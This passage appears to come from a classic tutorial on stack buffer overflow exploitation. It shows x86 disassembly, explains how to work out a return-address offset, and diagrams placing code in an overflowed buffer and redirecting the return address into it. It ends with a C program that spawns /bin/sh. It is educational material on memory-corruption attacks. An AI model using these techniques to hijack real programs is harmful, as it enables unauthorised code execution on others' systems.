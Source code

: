 ```nasm
0x80004b6 <main+38>:    pushl  $0x80004f8
0x80004bb <main+43>:    call   0x8000378 <printf>
0x80004c0 <main+48>:    addl   $0x8,%esp
0x80004c3 <main+51>:    movl   %ebp,%esp
0x80004c5 <main+53>:    popl   %ebp
0x80004c6 <main+54>:    ret
0x80004c7 <main+55>:    nop
```
<PRE>

   We can see that when calling function() the RET will be 0x8004a8, and we
want to jump past the assignment at 0x80004ab.  The next instruction we want
to execute is the at 0x8004b2.  A little math tells us the distance is 8
bytes.


                                  Shell Code
                                  ~~~~~~~~~~

   So now that we know that we can modify the return address and the flow of
execution, what program do we want to execute?  In most cases we'll simply
want the program to spawn a shell.  From the shell we can then issue other
commands as we wish.  But what if there is no such code in the program we
are trying to exploit?  How can we place arbitrary instruction into its
address space?  The answer is to place the code with are trying to execute in
the buffer we are overflowing, and overwrite the return address so it points
back into the buffer.  Assuming the stack starts at address 0xFF, and that S
stands for the code we want to execute the stack would then look like this:


bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [SSSSSSSSSSSSSSSSSSSS][SSSS][0xD8][0x01][0x02][0x03]
           ^                            |
           |____________________________|
top of                                                            bottom of
stack                                                                 stack


The code to spawn a shell in C looks like:

shellcode.c
</PRE>
```C
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
<PRE>
